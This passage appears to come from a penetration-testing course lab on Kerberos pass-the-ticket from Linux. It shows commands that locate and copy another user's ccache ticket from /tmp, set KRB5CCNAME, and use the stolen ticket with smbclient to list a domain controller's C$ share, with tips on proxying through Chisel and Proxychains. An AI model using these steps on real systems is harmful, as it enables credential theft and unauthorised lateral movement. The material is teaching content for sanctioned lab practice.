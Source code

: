 As root, we need to identify which tickets are present on the machine, to whom they belong, and their expiration time.

### Looking for ccache Files
```shell-session
# ls -la /tmp
```

### Identifying Group Membership with the id Command
```shell-session
# id julio@inlanefreight.htb
```

### Importing the ccache File into our Current Session
```shell-session
root@linux01:~# klist
klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
```

**Note:** klist displays the ticket information. We must consider the values "valid starting" and "expires." If the expiration date has passed, the ticket will not work. `ccache files` are temporary. They may change or expire if the user no longer uses them or during login and logout operations.

## Using Linux Attack Tools with Kerberos

Most Linux attack tools that interact with Windows and AD support Kerberos authentication, when using in a domain joined machine we need to make sure the `KRB5CCNAME` environment variable is set to the ccache file we want to use. If we are attacking from a machine not part of the domain, we need to make sure our machine can contact the KDC or Domain Controller, and that domain name resolution is working.

If our attack box can't to the things in the above line we can proxy our traffic with a tool such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts` file to hardcore IP addresses of the domain and the machine we want to attack.

### Host File Modified
```shell-session
$ cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

